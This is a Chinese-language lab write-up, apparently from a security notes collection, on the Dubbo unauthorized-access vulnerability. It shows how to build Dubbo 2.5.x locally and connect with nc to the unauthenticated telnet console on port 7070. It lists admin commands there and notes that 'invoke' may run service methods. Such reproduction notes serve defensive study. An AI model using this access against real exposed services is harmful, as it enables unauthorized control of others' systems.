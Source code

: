# Dubbo 未授权访问漏洞

## 漏洞简介

Dubbo是阿里巴巴公司开源的一个高性能优秀的 服务框架，使得应用可通过高性能的 RPC 实现服务的输 出和输入功能，可以和 Spring框架无缝集成。dubbo 因配置不当导致未授权访问漏洞。 

## 环境搭建

```
git clone https://github.com/alibaba/dubbo/tree/2.5.x
```

进入dubbo-2.5.x 目录

执行`mvn clean package -Dmaven.test.skip=true`会生成如下结果

![image-20220726153013824](../../.gitbook/assets/image-20220726153013824.png)

在`dubbo-2.5.x/dubbo-simple/dubbo-monitor-simple/target`目录会发现生成了`dubbo-monitor-simple-2.5.10-assembly.tar.gz`，解压这个文件夹

查看配置文件，会看到dubbo协议端口为7070

```
[root@localhost dubbo-monitor-simple-2.5.10]# cat conf/dubbo.properties 

dubbo.container=log4j,spring,registry,jetty
dubbo.application.name=simple-monitor
dubbo.application.owner=
dubbo.registry.address=multicast://224.5.6.7:1234
#dubbo.registry.address=zookeeper://127.0.0.1:2181
#dubbo.registry.address=redis://127.0.0.1:6379
#dubbo.registry.address=dubbo://127.0.0.1:9090
dubbo.protocol.port=7070
dubbo.jetty.port=8080
dubbo.jetty.directory=${user.home}/monitor
dubbo.charts.directory=${dubbo.jetty.directory}/charts
dubbo.statistics.directory=${user.home}/monitor/statistics
dubbo.log4j.file=logs/dubbo-monitor-simple.log

```

启动dubbo

```
[root@localhost dubbo-monitor-simple-2.5.10]# bin/start.sh
```



## 漏洞利用

nc连接`7070`端口，7070端口允许您执行各种管理任务，如查看注册表的状态、列出可用服务和查看注册表的日志级别。

```
[root@localhost dubbo-monitor-simple-2.5.10]# nc 127.0.0.1 7070
ls
com.alibaba.dubbo.monitor.MonitorService
dubbo>help
Please input "help [command]" show detail.
 status [-l]                      - Show status.
 pwd                              - Print working default service.
 trace [service] [method] [times] - Trace the service.
 exit                             - Exit the telnet.
 help [command]                   - Show help.
 invoke [service.]method(args)    - Invoke the service method.
 count [service] [method] [times] - Count the service.
 clear [lines]                    - Clear screen.
 ls [-l] [service]                - List services and methods.
 log level                        - Change log level or show log 
 ps [-l] [port]                   - Print server ports and connections.
 cd [service]                     - Change default service.
dubbo>status
OK
dubbo>pwd
/
```

> 如果服务具有命令执行功能，则使用 "invoke" 命令可能会执行命令，因为 "invoke" 命令用于调用特定的服务方法。